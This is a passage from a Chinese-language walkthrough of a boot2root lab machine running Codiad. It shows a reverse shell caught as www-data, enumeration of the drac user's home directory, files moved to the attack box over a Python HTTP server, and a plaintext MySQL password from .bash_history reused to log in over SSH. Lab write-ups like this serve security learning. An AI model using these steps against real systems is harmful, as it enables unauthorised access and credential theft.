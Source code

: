 在利用漏洞之后，我在目标系统上安装了一个 shell:

```
connect to [<attackbox ip>] from (UNKNOWN) [<boot2root ip>] 52940
bash: cannot set terminal process group (921): Inappropriate ioctl for device
bash: no job control in this shell
**www-data@ide:/var/www/html/codiad/components/filemanager$ id**
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 后剥削

使用一个 shell，我试图获得`user.txt`标志——但遗憾的是，因为我没有所需的读取权限，所以无法获得:

```
**www-data@ide:/var/www/html/codiad/components/filemanager$ find / -name user.txt -type f -print 2>/dev/null**
<r$ find / -name user.txt -type f -print 2>/dev/null 
/home/drac/user.txt
**www-data@ide:/var/www/html/codiad/components/filemanager$ cat /home/drac/user.txt**
<iad/components/filemanager$ cat /home/drac/user.txt 
cat: /home/drac/user.txt: Permission denied
```

因此，我得到了一个目录列表，其中列出了我可以从使用`ls -la`的`drac`用户帐户中读取的文件类型

```
total 52
 drwxr-xr-x 6 drac drac 4096 Aug 4 2021 .
 drwxr-xr-x 3 root root 4096 Jun 17 2021 ..
 -rw------- 1 drac drac 49 Jun 18 2021 .Xauthority
 -rw-r--r-- 1 drac drac 36 Jul 11 2021 .bash_history
 -rw-r--r-- 1 drac drac 220 Apr 4 2018 .bash_logout
 -rw-r--r-- 1 drac drac 3787 Jul 11 2021 .bashrc
 drwx------ 4 drac drac 4096 Jun 18 2021 .cache
 drwxr-x--- 3 drac drac 4096 Jun 18 2021 .config
 drwx------ 4 drac drac 4096 Jun 18 2021 .gnupg
 drwx------ 3 drac drac 4096 Jun 18 2021 .local
 -rw-r--r-- 1 drac drac 807 Apr 4 2018 .profile
 -rw-r--r-- 1 drac drac 0 Jun 17 2021 .sudo_as_admin_successful
 -rw------- 1 drac drac 557 Jun 18 2021 .xsession-errors
 -r-------- 1 drac drac 33 Jun 18 2021 user.txt
```

有了`www-data`账号，我可以读取四个文件:`.bash_history`、`.bash_logout`、`.bashrc`、`.profile`和`.sudo_as_admin_successful`。然后，我使用 Python 建立一个微型 HTTP 服务，将可读文件传输到我的攻击箱中，然后用`cat`检查它们的内容。`.bash_history`有一条重要的信息:

```
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

似乎`drac`用户正在连接到某个 MySQL 实例，并且正在重用他们的用户名。他们也可能重复使用他们的密码，所以我决定使用 MySQL 密码通过 SSH 登录到`drac`账户，然后…

```
**└─$ ssh drac@<boot2root ip>** 
The authenticity of host '<boot2root ip> (<boot2root ip>)' can’t be established.
ED25519 key fingerprint is SHA256:74/tt/begRRzOOEOmVr2W3VX96tjC2aHyfqOEFUOkRk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? **yes**
Warning: Permanently added '<boot2root ip>' (ED25519) to the list of known hosts.
drac@<boot2root ip>’s password: **[Th3dRaCULa1sR3aL]**
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0–147-generic x86_64)* Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/advantageSystem information as of [redacted]System load: 0.08 Processes: 101
 Usage of /: 49.9% of 8.79GB Users logged in: 0
 Memory usage: 16% IP address for eth0: <boot2root ip>
```
